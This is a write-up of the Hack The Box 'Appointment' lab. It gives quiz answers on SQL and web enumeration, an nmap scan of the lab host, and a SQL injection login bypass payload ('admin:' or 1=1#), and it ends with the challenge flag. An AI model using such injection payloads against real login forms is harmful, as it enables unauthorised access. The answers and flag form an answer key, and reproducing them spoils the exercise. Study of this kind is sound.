

# Appointment

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 1

## Solution

#### 1. What does the acronym SQL stand for?

> Structured Query Language

#### 2. What is one of the most common type of SQL vulnerabilities?

> SQL injection

#### 3. What is the 2021 OWASP Top 10 classification for this vulnerability?

> A03:2021-Injection

#### 4. What does Nmap report as the service and version that are running on port 80 of the target?

```sh
nmap -A -T4 10.129.188.121
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 12:35 CET
Nmap scan report for 10.129.188.121
Host is up (0.031s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.73 seconds
```

> Apache httpd 2.4.38 ((Debian))

#### 5. What is the standard port used for the HTTPS protocol?

> 443

#### 6. What is a folder called in web-application terminology?

> directory

#### 7. What is the HTTP response code is given for 'Not Found' errors?

> 404

#### 8. Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

> dir

#### 9. What single character can be used to comment out the rest of a line in MySQL?

> \#

#### 10. If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?

`username:password` : `admin:' or 1=1#`



> Congratulations


## Final Flag

> e3d0796d002a446c0e622226f42e9672

*Created by [bu19akov](https://github.com/bu19akov)*